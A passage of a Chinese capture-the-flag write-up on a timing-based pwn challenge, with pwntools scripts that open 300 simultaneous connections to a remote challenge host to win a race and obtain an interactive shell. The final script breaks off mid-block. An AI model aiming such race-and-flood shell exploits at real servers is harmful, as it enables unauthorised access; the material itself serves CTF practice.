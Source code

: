 直接获得shell

![Alt text](images/PLC_2.png)

事实上，测试后发现，当v5=1, v4=159可以获得最优解，来测试一下最优解运行的时间，测试代码如下

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process(['time', './time'])
p.sendline('159')
p.sendline('1')
p.interactive()
```

经过测试发现，总的运行时间在10.84s左右，那么出去程序初始化的1s，实际上后面的运行时间是低于10s的，那么直接同时开多个进程跑就行了，猜测在多进程的情况下会增加内核调度负担，进一步增加时间延迟，代码如下：

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *
max_i = 0
max_j = 0
max_v = 0
for i in range(1, 200):
    for j in range(1, 100):
        value = (2544 / j / i)  * (2 * i - 2) * j
        # print i,j,value
        if value > max_v:
            max_i = i
            max_j = j
            max_v = value

print max_i, max_j, max_v


while True:
    conn = []
    
    size = 300
    for i in range(size):
        p = remote('47.104.177.194', 30005)
        # p = process('./time')
        p.sendline('159')
        p.sendline('1')
        # p.interactive()
        conn.append(p)

    time.sleep(11)
    for i in range(size):
        print i
        try:
            conn[i].sendline('echo aabbccdd') 
            data = conn[i].recvuntil('aabbccdd', timeout=1)
            if data != '':
                conn[i].interactive()
```